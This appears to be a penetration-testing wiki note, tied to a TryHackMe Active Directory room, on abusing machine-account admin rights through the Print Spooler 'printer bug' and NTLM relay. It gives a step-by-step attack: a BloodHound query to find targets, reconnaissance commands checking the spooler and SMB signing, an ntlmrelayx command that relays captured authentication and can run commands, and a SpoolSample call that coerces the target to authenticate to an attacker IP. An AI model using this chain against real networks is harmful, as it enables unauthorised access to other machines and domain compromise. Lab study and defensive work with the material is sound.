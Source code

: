 **Beware: Some of these attacks can be unstable, cause crashes or without callback.**

All Windows hosts have a machine account and their passwords are uncrackable, by default, they are 120 characters (UTF16) long and are automatically rotated every 30 days. Within Active Directory, machine account are used for services across the scope of which other organisation units has access to that service. DCs use their machine accounts to synchronise AD updates and changes. Machine accounts are used for authentication to the AD Certificate Service when you request a certificate on behalf of the host machine you make the request from. 

Due to tiering  of privileges as higher tiers manage ever larger group of networked machines exceptional case in AD configuration occurs frequently where one machine has administrative permissions over a host have been granted to another host. This is normal it is expected functionality as domain controllers or SQL clusters that must be synchronised.

## Attack Path

First identify cases where a machine account has administrative access over another machine - [[Bloodhound-Guide]]
Bloodhound query - `Click -> "Create Custom Query" in the Analysis tab in Bloodhound`
```js
MATCH p=(c1:Computer)-[r1:MemberOf*1..]->(g:Group)-[r2:AdminTo]->(n:Computer) RETURN p
```


## That printer bug...

*It's not a bug, it's a feature - Microsoft.*

The printer bug is a "feature" of the MS-RPRN protocol (PrintSystem Remote Protocol), which allows a domain user to remotely force a target host running the Print Spooler service to authenticate to an arbitrary IP address.

-   A Machine Account administrative privileges 
-   A valid set of AD account credentials.
-   Network connectivity to the target's SMB service.
-   The target host must be running the Print Spooler service.
-   The hosts must not have SMB signing enforced.

```powershell
GWMI Win32_Printer -Computer $printer_name.$domain # verify printer is running
# If access denied attempt the follow
Get-PrinterPort -ComputerName $printer_name.$domain # backup version of the above command
# Beware viewing port is being cracked down by Microsoft so maybe the blue team is already there..
# nmap to see if smb signing is enforced 
nmap --script=smb2-security-mode -p445 $domain

```

**Beware: This attack can be unstable. Abusing the Print Spooler service may cause it to crash, and a callback is not always guaranteed.**

[SpoolSample](https://github.com/leechristensen/SpoolSample) is a C# exploit to exploit the authencation relay. First setup [[Impacket-Cheatsheet]] - `ntlmrelayx`
```bash
ntlmrelayx -smbsupport -t smb://"Machine Account administrative privileges host IP goes here"
-debug # -c 'dos commands go here'
```
If we specified the hostname of `"Machine Account administrative privileges host"` the hsot could request that we use Kerberos authenication instead of NTLM. Now coerce target to authenicate to us.
```powershell
SpoolSample.exe $target.$domain "Attacker IP"
```

## References

[THM Exploiting AD Room](https://tryhackme.com/room/exploitingad)